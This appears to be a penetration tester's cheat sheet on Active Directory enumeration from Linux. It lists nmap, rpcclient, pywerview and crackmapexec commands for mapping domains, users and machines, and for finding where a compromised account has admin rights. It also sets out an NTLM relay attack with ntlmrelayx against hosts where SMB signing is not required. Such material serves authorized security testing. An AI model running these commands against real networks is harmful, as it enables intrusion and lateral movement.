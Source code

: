 ```yaml
---
layout: post
title: TA0007 Discovery - AD Collection & Enumeration with Linux
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2023-01-06
permalink: /:categories/:title/
---
```


<!-- vscode-markdown-toc -->
* [SHOOT General Properties](#SHOOTGeneralProperties)
	* [Domain properties](#Domainproperties)
	* [Forest properties](#Forestproperties)
	* [Kerberos Delegations](#KerberosDelegations)
	* [Privileged Users](#PrivilegedUsers)
	* [Privileged Machines](#PrivilegedMachines)
	* [Great ressources](#Greatressources)
* [ITER](#ITER)
	* [User groups](#Usergroups)
	* [Scope of compromise](#Scopeofcompromise)
* [REFRESH](#REFRESH)
* [MISC](#MISC)
	* [ RELAY: SMBv2 SIGNING NOT REQUIRED](#RELAY:SMBv2SIGNINGNOTREQUIRED)
	* [CRACKING HASHES](#CRACKINGHASHES)
	* [Docker Impacket RPCdump](#DockerImpacketRPCdump)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->


## <a name='SHOOTGeneralProperties'></a>SHOOT General Properties

### <a name='Domainproperties'></a>Domain properties

```sh
# Identify the DC / DHCP services 
nmap --script broadcast-dhcp-discover
sudo tcpdump -ni eth0 udp port 67 and port 68

dig -t SRV _gc._tcp.contoso.com
dig -t SRV _ldap._tcp.contoso.com
dig -t SRV _kerberos._tcp.contoso.com
dig -t SRV _kpasswd._tcp.contoso.com

nmap --script dns-srv-enum --script-args "dns-srv-enum.domain='contoso.com'"

nbtscan -r 10.0.0.0/24

# Enum domains and trusts
rpcclient -U "johndoe" 10.1.1.1
rpcclient> enumdomains
rpcclient> enumtrusts

# Get the IP subnetting / IP plan
cut -f1 -d" " trusts.txt > trusts_clean.txt                                                        │
for i in `cat trusts_clean.txt`; do ping -a $i; done                                               │
```

### <a name='Forestproperties'></a>Forest properties
```sh
```

### <a name='KerberosDelegations'></a>Kerberos Delegations
```sh
```

### <a name='PrivilegedUsers'></a>Privileged Users
```sh
```

### <a name='PrivilegedMachines'></a>Privileged Machines
```sh
```

### <a name='Greatressources'></a>Great ressources
| **Ressource**  | 
|-----------------|
| [Fun with LDAP & Kerberos - ThotCon 2017](https://github.com/jomivz/cybrary/blob/master/purpleteam/red/windows/LDAP%20Service%20and%20Kereberos%20Protocol%20Attacks.pdf) | AD Enumeration on Linux OS. [YT](https://www.youtube.com/watch?v=2Xfd962QfPs) |
| [RPCclient cookbook](https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html) |
| [Other LDAP queries examples](https://theitbros.com/ldap-query-examples-active-directory/) |
| [Other LDAP queries examples](https://posts.specterops.io/an-introduction-to-manual-active-directory-querying-with-dsquery-and-ldapsearch-84943c13d7eb) |

## <a name='ITER'></a>ITER

### <a name='Usergroups'></a>User groups
```bash
# Get user info
python pywerview.py get-netuser -w $zdom_fqdn -u $zlat_user -p $zlat_pwd --dc-ip $zdom_dc_ip --username $ztarg_user > pt_xxx_getnetuser_x.txt

# Get user info + canarytoken check
# select cn, whenCreated, accountExpires, pwdLastSet, lastLogon, logonCount, badPasswordTime, badPwdCount

# Get user memberof info
python pywerview.py get-netgroup -w $zdom_fqdn -u $zlat_user -p $zlat_pwd --dc-ip $zdom_dc_ip --username $ztarg_user| grep -v "^$" | cut -f2 -d" "  > pt_xxx_getnetgroup_x.txt 

# Get the machine's OU
python pywerview.py get-netcomputer -w $zdom_fqdn -u $zlat_user -p $zlat_pwd --dc-ip $zdom_dc_ip --computername --full-data | grep 

# Get the machines based on an adspath / OU
ztarg_ou = "OU=Workstations,DC=CONTOSO,DC=COM"
ztarg_adspath = "ldap://" + $ztarg_ou
python pywerview.py get-netcomputer -w $zdom_fqdn -u $zlat_user -p $zlat_pwd -a $ztarg_adspath --dc-ip $zdom_dc_ip | grep -v "^$" | cut -f2 -d" " > pt_xxx_getnetcomputer_ou_x.txt
```

### <a name='Scopeofcompromise'></a>Scope of compromise 
```bash
# Find where the account is local admin V1
for i in $(cat pt_xxx_getnetcomputer_ou_x.txt); do python pywerview.py invoke-checklocaladminaccess -u $zlat_user -p $zlat_pwd --computername $i; done 

# Find where the account is local admin V2
cme winrm pt_xxx_getnetcomputer_ou_x.txt -d $zdom_fqdn -u $zlat_user -p $zlat_pwd
cme smb pt_xxx_getnetcomputer_ou_x.txt -d $zdom_fqdn -u $zlat_user -p $zlat_pwd

# Get the DNs of the owned machines 
# Get the OS of the owned machines / get the cn computer (1 line) and its DN (1 line)
while read ztarg_computer_fqdn; python pywerview.py get-netcomputer --computername $ztarg_computer_fqdn -w $zdom_fqdn -u $ztarg_user_name -p XXX --dc-ip $zdom_dc_ip --attributes cn distinguishedName >> pt_XXX_getcomputer_XXX_dn.txt; done < pt_XXX_pwned_machines.txt
# Get the OS of the owned machines / format the result returned to CSV
i=0; while read line; do i=$(($i+1)); if [[ $i == 1 ]]; then echo $line | sed 's/^.*:\s\(.*\)$/\1/' | tr '\n' ',' >> pt_XXX_getnetcomputer_XXX_dn.csv ; elif [[ $i == 2 ]]; then echo $line | sed 's/^.*:\s\(.*\)$/\1/' >> pt_XXX_getnetcomputer_XXX_dn.csv; i=0; fi; done < pt_XXX_getcomputer_XXX_dn.txt

# Get the OS of the owned machines /
# Get the OS of the owned machines / get the cn computer (1 line) and its OS (1 line)
while read ztarg_computer_fqdn; python pywerview.py get-netcomputer --computername $ztarg_computer_fqdn -w $zdom_fqdn -u $ztarg_user_name -p XXX --dc-ip $zdom_dc_ip --attributes cn operatingSystem >> pt_XXX_getcomputer_XXX_os.txt; done < pt_XXX_pwned_machines.txt
# Get the OS of the owned machines / format the result returned to CSV
i=0; while read line; do i=$(($i+1)); if [[ $i == 1 ]]; then echo $line | sed 's/^.*:\s\(.*\)$/\1/' | tr '\n' ',' >> pt_XXX_getnetcomputer_XXX_os.csv ; elif [[ $i == 2 ]]; then echo $line | sed 's/^.*:\s\(.*\)$/\1/' >> pt_XXX_getnetcomputer_XXX_os.csv; i=0; fi; done < pt_XXX_getcomputer_XXX_os.txt
```

## <a name='REFRESH'></a>REFRESH
```bash
```

## <a name='MISC'></a>MISC

### <a name='RELAY:SMBv2SIGNINGNOTREQUIRED'></a> RELAY: SMBv2 SIGNING NOT REQUIRED
```sh
# STEP 1: find smb not signed
nmap -p 445 --script smb2-security-mode 10.0.0.0/24 -o output.txt

# STEP 2: set up impacket/ntlmrelayx
grep -B 9 "not required" output.txt |sed -E '/.*\((.*\..*\..*\..*)\)$/!d' |sed -E 's/.*\((.*\..*\..*\..*)\)$/\1/' > targets.txt
python3 ntlmrelayx.py -tf targets.txt -smb2support

```

### <a name='CRACKINGHASHES'></a>CRACKING HASHES
```sh
# Get the domain pasword policy
rpcclient -U "johndoe" 10.1.1.1
rpcclient> getdompwinfo
```

### <a name='DockerImpacketRPCdump'></a>Docker Impacket RPCdump
```
sudo docker run --rm -it -p 134:135 rflathers/impacket rpcdump.py -port 135 1.3.8.3 > rpcdump_10.3.8.3.txt
```